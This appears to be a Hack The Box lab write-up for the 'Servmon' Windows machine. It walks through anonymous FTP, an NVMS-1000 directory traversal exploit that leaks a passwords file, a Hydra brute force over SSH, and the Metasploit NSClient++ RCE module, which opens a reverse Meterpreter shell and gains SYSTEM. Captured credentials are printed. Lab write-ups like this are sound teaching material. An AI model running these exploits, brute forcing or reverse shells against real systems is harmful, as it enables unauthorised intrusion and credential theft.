


# Servmon - Easy

Target IP: **10.129.79.160**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.79.160 -v```

Output shows a lot of ports open.

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-favicon: Unknown favicon MD5: 3AEF8B29C4866F96A539730FAB53A88F
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  tcpwrapped
8443/tcp  open  ssl/https-alt
| http-title: NSClient++
|_Requested resource was /index.html
| http-methods: 
|_  Supported Methods: GET
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:   1d03:0c40:5b7a:0f6d:d8c8:78e3:cba7:38b4
|_SHA-1: 7083:bd82:b4b0:f9c0:cc9c:5019:2f9f:9291:4694:8334
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.95%I=7%D=10/11%Time=6ACBE704%P=x86_64-pc-linux-gnu%r(NUL
SF:L,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text/h
SF:tml\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\r\
SF:n\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20te
SF:xt/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\
SF:x20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20
SF:XHTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/
SF:DTD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\
SF:.org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20
SF:\x20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x2
SF:0\x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x
SF:20\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n"
SF:)%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/ht
SF:ml\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r
SF:\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML
SF:\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/x
SF:html1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/
SF:1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\
SF:x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x2
SF:0\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(R
SF:TSPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\
SF:nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\
SF:n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201
SF:\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1
SF:-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/
SF:xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x
SF:20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20
SF:\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.95%T=SSL%I=7%D=10/11%Time=6ACBE70C%P=x86_64-pc-linux-g
SF:nu%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocatio
SF:n:\x20/index\.html\r\n\r\n\xdfK\x81\xac2~{\xa1\x06\x02\x04j\xcb\xd8\0\0
SF:\0\0\x02\x01,\xa4\x02\x04\0\0\0\0\0\x12\x02\x18\0\x1aE\n\x07workers\x12
SF:\x0b\n\x04jobs\x12\x03\x18\xa3N\x12")%r(HTTPOptions,36,"HTTP/1\.1\x2040
SF:4\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(FourOhFo
SF:urRequest,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument
SF:\x20not\x20found")%r(RTSPRequest,36,"HTTP/1\.1\x20404\r\nContent-Length
SF::\x2018\r\n\r\nDocument\x20not\x20found")%r(SIPOptions,36,"HTTP/1\.1\x2
SF:0404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-10-11T18:45:52
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -59m59s
```

First, we can see anonymous login is enabled for the FTP service. Let's authenticate.

Logging in, we can see that there is a ```Users``` directory, and then inside, ```Nadine``` and ```Nathan```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-elkff1jq8d]─[~]
└──╼ [★]$ ftp 10.129.79.160
Connected to 10.129.79.160.
220 Microsoft FTP Service
Name (10.129.79.160:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49678|)
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49679|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
226 Transfer complete.
```

In ```Nadine```, there is a confidential text file.

```
ftp> cd Nadine
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49680|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  168 Confidential.txt
226 Transfer complete.
```

There is another text file on ```Nathan```.

```
ftp> cd Nathan
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49684|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  182 Notes to do.txt
226 Transfer complete.
```

Transferring both of these to our attack host, we can read them.

Nadine has left a passwords text file on Nathan's desktop.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-elkff1jq8d]─[~]
└──╼ [★]$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

The Notes to do file reveals valuable information as well. He has just locked down the NSClient Access, but did not get to uploading the passwords, which are stored in the text file in his desktop. Additionally, NVMS should still be accessible to the public.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-elkff1jq8d]─[~]
└──╼ [★]$ cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

Navigating to the website on port 80 gives us the log in page for NVMS-1000. The default credentials are ```admin:123456```, but it doesn't work.



In the output of our scan, we can see that tcp port 8443 is open, with NSClient running on it.

Navigating to it gives us a view of the management console? But it's not loading properly for some reason, and all the buttons seem static.

Searchsploit gives us a promising vulnerability in NVMS-1000.

```
─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-elkff1jq8d]─[~]
└──╼ [★]$ searchsploit nvms
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
NVMS 1000 - Directory Traversal                                                                             | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modification                                            | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow                                                          | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                                                                         | hardware/webapps/48311.py
------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

This is an unauthenticated directory traversal vulnerability. We can grab the passwords file using this. Let's try this [PoC](https://github.com/0hmsec/NVMS-1000-Directory-Traversal-Bash/blob/main/cve-2019-20085-poc.sh).

After running the exploit, we get multiple passwords.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-elkff1jq8d]─[~]
└──╼ [★]$ ./cve-2019-20085-poc.sh -u http://10.129.79.160/ -f users/nathan/desktop/passwords.txt
Target URL: http://10.129.79.160/../../../../../../../../../../../../../users/nathan/desktop/passwords.txt
Directory Traversal Succeeded!
Reading the file: users/nathan/desktop/passwords.txt.

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-elkff1jq8d]─[~]
```

After saving both the usernames and the passwords, running Hydra on SSH gives us a set of valid credentials.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-elkff1jq8d]─[~]
└──╼ [★]$ hydra -L users -P passwords ssh://10.129.79.160
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-11 16:34:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:2/p:7), ~1 try per task
[DATA] attacking ssh://10.129.79.160:22/
[22][ssh] host: 10.129.79.160   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-11 16:34:57
```

Let's log in.

```
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>
```

We can proceed to get the user flag from here.

## Root Flag

In ```C:\Program Files```, we can see ```NSClient++```, the application that we identified. Let's explore this further.

```
nadine@SERVMON C:\Users\Nadine\Desktop>cd "C:\Program Files"

nadine@SERVMON C:\Program Files>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 20C1-47A1

 Directory of C:\Program Files

02/28/2022  07:55 PM    <DIR>          .
02/28/2022  07:55 PM    <DIR>          ..
03/01/2022  02:20 AM    <DIR>          Common Files
11/11/2019  07:52 PM    <DIR>          internet explorer
02/28/2022  07:07 PM    <DIR>          MSBuild
02/28/2022  07:55 PM    <DIR>          NSClient++
02/28/2022  07:46 PM    <DIR>          NVMS-1000
02/28/2022  07:32 PM    <DIR>          OpenSSH-Win64
02/28/2022  07:07 PM    <DIR>          Reference Assemblies
02/28/2022  06:44 PM    <DIR>          VMware
11/11/2019  07:52 PM    <DIR>          Windows Defender
11/11/2019  07:52 PM    <DIR>          Windows Defender Advanced Threat Protection
09/15/2018  12:19 AM    <DIR>          Windows Mail
11/11/2019  07:52 PM    <DIR>          Windows Media Player
09/15/2018  12:19 AM    <DIR>          Windows Multimedia Platform
09/15/2018  12:28 AM    <DIR>          windows nt
11/11/2019  07:52 PM    <DIR>          Windows Photo Viewer
09/15/2018  12:19 AM    <DIR>          Windows Portable Devices
09/15/2018  12:19 AM    <DIR>          Windows Security
02/28/2022  07:25 PM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              20 Dir(s)   6,031,269,888 bytes free
```

In ```nsclient.ini```, we can see a password.

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT
```

We can also see the version, 0.5.2.35.

```
nadine@SERVMON C:\Program Files\NSClient++>nscp --version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
```

When I tried logging in with the password, it doesn't work. This is because in the configuration file, it was specified to only accept incoming connections from localhost.



Let's port forward. We can access the page and log in afterwards.

Looking for publicly disclosed vulnerabilities for this version of NSClient++, we find that it is vulnerable to local privilege escalation.

There are Metasploit modules for this.

```
[msf](Jobs:0 Agents:0) >> search nsclient

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/nscp_authenticated_rce  2020-10-20       excellent  Yes    NSClient++ 0.5.2.35 - ExternalScripts Authenticated Remote Code Execution
   1  exploit/windows/local/nscp_pe                2020-10-20       excellent  Yes    NSClient++ 0.5.2.35 - Privilege escalation
```

Selecting this module and setting all the appropriate options, exploiting gives us a shell as ```NT AUTHORITY\SYSTEM```.

```
[msf](Jobs:0 Agents:0) exploit(windows/http/nscp_authenticated_rce) >> exploit
[*] Started reverse TCP handler on 10.10.15.194:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[+] The target is vulnerable. External scripts feature enabled !
[*] Configuring Script with Specified Payload . . .
[*] Added External Script (name: gjjjwromyi)
[*] Saving Configuration . . .
[*] Reloading Application . . .
[*] Waiting for Application to reload . . .
[*] Triggering payload, should execute shortly . . .
[*] Sending stage (190534 bytes) to 10.129.79.160
[*] Meterpreter session 1 opened (10.10.15.194:4444 -> 10.129.79.160:49823) at 2026-10-11 17:29:16 -0400

(Meterpreter 1)(C:\Program Files\NSClient++) > shell
Process 2912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
